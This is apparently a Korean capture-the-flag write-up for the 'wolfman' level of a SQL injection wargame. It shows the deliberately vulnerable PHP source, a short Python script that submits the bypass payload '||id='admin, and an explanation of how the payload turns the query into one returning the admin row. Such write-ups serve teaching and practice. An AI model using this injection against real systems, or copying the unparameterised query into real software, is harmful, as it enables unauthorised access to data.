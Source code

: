 ## Wolfman Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");  
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");  
$query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result['id']) echo "<h2>Hello {$result[id]}</h2>";  
if($result['id'] == 'admin') solve("wolfman");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params= {}
params['pw'] = "'||id='admin"

res = requests.get(url, cookies=cookies, params=params)
if "Clear" in res.text :
    print("[♪] WOLFMAN Clear!")
```
이번 문제는 id가 admin이면 풀리는 문제이다.  
쿼리문을 보면 이미 `id='guest'`로 되어있는데 이를 우회하면 된다.
공백이 필터링 되어 있으니 공백 없이 쓰면 된다.  
GET 방식으로 전송되는 pw에 `'||id='admin`을 넣어주면 쿼리문은 아래와 같이 된다.
``` php
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```
id가 admin이므로 문제가 풀린다.